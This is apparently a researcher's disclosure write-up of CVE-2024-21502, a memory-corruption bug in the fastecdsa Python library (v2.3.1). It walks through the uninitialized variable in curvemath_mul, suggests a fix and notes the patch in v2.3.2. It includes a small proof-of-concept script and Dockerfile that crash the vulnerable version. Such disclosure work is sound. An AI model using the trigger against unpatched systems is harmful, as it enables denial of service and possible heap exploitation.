 +++
title = 'CVE-2024-21502 writeup'
date = 2024-03-04T01:00:00+03:00
tags = ['cve', 'writeup']
toc = true
+++


## Overview

_Assigned CVE_: [CVE-2024-21502](https://www.cve.org/CVERecord?id=CVE-2024-21502)

_Snyk advisory_: [SNYK-PYTHON-FASTECDSA-6262045](https://security.snyk.io/vuln/SNYK-PYTHON-FASTECDSA-6262045)

_GitHub commit_: [fix memory corruption issue](https://github.com/AntonKueltz/fastecdsa/commit/57fc5689c95d649dab7ef60cc99ac64589f01e36)


## Package details

_Package manager_: pip

_Affected module_: [fastecdsa](https://pypi.org/project/fastecdsa/)

_GitHub repo_: [AntonKueltz/fastecdsa](https://github.com/AntonKueltz/fastecdsa)

_Module description_:

> This is a python package for doing fast elliptic curve cryptography, specifically digital signatures.


## Vulnerability description

Memory corruption in Python external module. Possible risk: denial of service, sensitive info leakage, remote code execution.

Vulnerability: uninitialized variable on the stack. Since the variable is used and interpreted as user-defined type, it leads to undefined behaviour. Depends on the variable's actual value it could be arbitrary `free()`, arbitrary `realloc()`, null pointer dereference and other.


## Vulnerability details

Actual source code is here: https://github.com/AntonKueltz/fastecdsa/tree/v2.3.1

The vulnerability is located in file [src/curveMath.c](https://github.com/AntonKueltz/fastecdsa/blob/v2.3.1/src/curveMath.c). Function [curvemath_mul](https://github.com/AntonKueltz/fastecdsa/blob/v2.3.1/src/curveMath.c#L210) is used to calculate point multiplication. This is a binding, so the function could be called from Python code directly.

```c
static PyObject * curvemath_mul(PyObject *self, PyObject *args) {
    char * x, * y, * d, * p, * a, * b, * q, * gx, * gy;

    if (!PyArg_ParseTuple(args, "sssssssss", &x, &y, &d, &p, &a, &b, &q, &gx, &gy)) {
        return NULL;
    }

    PointZZ_p result;
    mpz_t scalar;
    mpz_init_set_str(scalar, d, 10);
    CurveZZ_p * curve = buildCurveZZ_p(p, a, b, q, gx, gy, 10);;

    PointZZ_p * point = buildPointZZ_p(x, y, 10);
    pointZZ_pMul(&result, point, scalar, curve);
    destroyPointZZ_p(point);
    destroyCurveZZ_p(curve);

    char * resultX = mpz_get_str(NULL, 10, result.x);
    char * resultY = mpz_get_str(NULL, 10, result.y);
    mpz_clears(result.x, result.y, scalar, NULL);

    PyObject * ret = Py_BuildValue("ss", resultX, resultY);
    free(resultX);
    free(resultY);
    return ret;
}
```

Please notice that variable `PointZZ_p result` is unitialized. Then it's passed to functions `pointZZ_pMul` and `mpz_clears`. Our target is the second function `mpz_clears` since it calls `free()` internally. We need to remain the variable uninitialized after calling `pointZZ_pMul`.

Let's look at the function [pointZZ_pMul](https://github.com/AntonKueltz/fastecdsa/blob/v2.3.1/src/curveMath.c#L124). Here is the code at the beginning:

```c
void pointZZ_pMul(PointZZ_p * rop, const PointZZ_p * point, const mpz_t scalar, const CurveZZ_p * curve) {
    // handle the identity element
    if(pointZZ_pIsIdentityElement(point)) {
        return pointZZ_pSetToIdentityElement(rop);
    }

    PointZZ_p R0, R1, tmp;
    mpz_inits(R1.x, R1.y, tmp.x, tmp.y, NULL);
    mpz_init_set(R0.x, point->x);
    mpz_init_set(R0.y, point->y);
    pointZZ_pDouble(&R1, point, curve);

    // truncated because the last part is not relevant
}
```

The first parameter (`PointZZ_p * rop`) is not initialized again (it's responsibility of the caller). Passing condition `pointZZ_pIsIdentityElement(point)` is trivial because we can construct arbitrary curve and arbitrary point on it. Let's look at the function [pointZZ_pSetToIdentityElement](https://github.com/AntonKueltz/fastecdsa/blob/v2.3.1/src/curveMath.c#L23):

```c
void pointZZ_pSetToIdentityElement(PointZZ_p * op) {
    mpz_set_ui(op->x, 0);
    mpz_set_ui(op->y, 0);
}
```

The parameter `PointZZ_p * op` is still not initialized. This is an undefined behaviour again.

So, the complete path below:

1. Python code (point multiplication)

2. Call function `curvemath_mul` (unitialized variable `result`)

3. Call function `pointZZ_pMul` (unitialized argument `rop`)

4. Call function `pointZZ_pSetToIdentityElement` (unitialized argument `op`)

5. Return from function `pointZZ_pSetToIdentityElement` (argument `op` is still unitialized)

6. Return from function `pointZZ_pMul` (argument `rop` is still unitialized)

7. Call function `mpz_clears` (unitialized arguments)

8. Call function `free` (argument is not initialized)

Since the stack can be controlled by attacker, the vulnerability could be used to corrupt allocator structure. It leads to possible heap exploitation.


## Suggested fix

Add initialization of variable:

```c
PointZZ_p result;
mpz_inits(result.x, result.y, NULL);
```


## How it was found

Some time ago I've created a curve with b=0. Since the point (0, 0) is on created curve, the vulnerability was trigged accidentally. I started the investigation and found the root cause.


## How to reproduce

I've tested it on Ubuntu 22.04.3 LTS, kernel version: 5.15.0-84-generic.

There is a simple PoC:

```python
#!/usr/bin/env python3

import sys
print(sys.version)

from fastecdsa.curve import Curve
from fastecdsa.point import Point

import time
time.sleep(2) # time to attach in gdb

MyCurve = Curve(
    p  = 0x10001,
    a  = 0x3,
    b  = 0x0,
    q  = 0x10202,
    gx = 0x427e,
    gy = 0x4ccb,
    name = 'MyCurve',
)

P = Point(x = 0, y = 0, curve = MyCurve)
print(P)

Q = 123 * P # trigger is here
print(Q)
```

The trigger is located in line 25. You could use Dockerfile in order to preserve the environment:

```Dockerfile
FROM python:3.11@sha256:4f7a334f9b8941fc7779e17541eaa0fd6043bdb63de1f5b0ee634e7991706e63

RUN pip install fastecdsa==2.3.1

COPY poc.py /tmp/poc.py

ENTRYPOINT python3 -u /tmp/poc.py
```

1. Build the image

```bash
docker build --tag fastecdsa-poc .
```

2. Run the image

```bash
docker run --rm fastecdsa-poc
```

3. Expected behaviour

```bash
$ docker run --rm fastecdsa-poc     
3.11.8 (main, Feb 13 2024, 09:58:12) [GCC 12.2.0]
X: 0x0
Y: 0x0
(On curve <MyCurve>)
free(): invalid pointer
Aborted (core dumped)
```


## Conclusion

The bug has been fixed in v2.3.2
